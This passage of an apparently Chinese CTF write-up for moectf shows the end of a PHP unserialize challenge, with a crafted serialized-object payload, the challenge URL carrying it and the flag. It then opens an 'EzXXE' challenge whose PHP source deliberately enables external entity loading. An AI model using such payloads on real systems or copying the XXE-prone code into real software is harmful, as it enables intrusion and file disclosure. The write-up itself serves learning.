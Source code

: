 ```php
            include 'flag.php';
            die($flag);
        }
    }
}
$m = new Moe;
$m->a = '1';
$m->b = '2';
$m->c = '3';
echo serialize($m);
?>
?flag=O:3:"Moe":3:{s:1:"a";s:1:"1";s:1:"b";s:1:"2";s:1:"c";s:1:"3";}
moectf{Y0u_4re_A_Moe}

仍有疑问：为什么能访问保护对象
```



[访问这个](http://web.moectf.online/unserialize/?flag=O:3:%22Moe%22:3:{s:1:%22a%22;s:1:%221%22;s:1:%22b%22;s:1:%222%22;s:1:%22c%22;s:1:%223%22;})

`moectf{Y0u_4re_A_Moe}`

## EzXXE

> 250points
>
> http://39.97.238.171:8001/

```php
<?php 
// flag is in '/flags/flag1.txt' and '/flags/flag2.php' 

libxml_disable_entity_loader (false); 
$xmlfile = file_get_contents('php://input'); 

if (strpos($xmlfile,"flag1.txt") !== FALSE){ 
    if (strpos($xmlfile,'file:/') === FALSE){ 
        die("Please use file protocol.<br/><br/>"); 
    } 
} 
if (strpos($xmlfile,"flag2.php") !== FALSE){ 
    if (strpos($xmlfile,'file:/') !== FALSE){ 
        echo "Why not try php://filter?"; 
        echo '<br/><br/>'; 
    } 
} 

$dom = new DOMDocument(); 
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);  
$test = simplexml_import_dom($dom); 
echo $test; 
highlight_file(__FILE__); 
?>
```
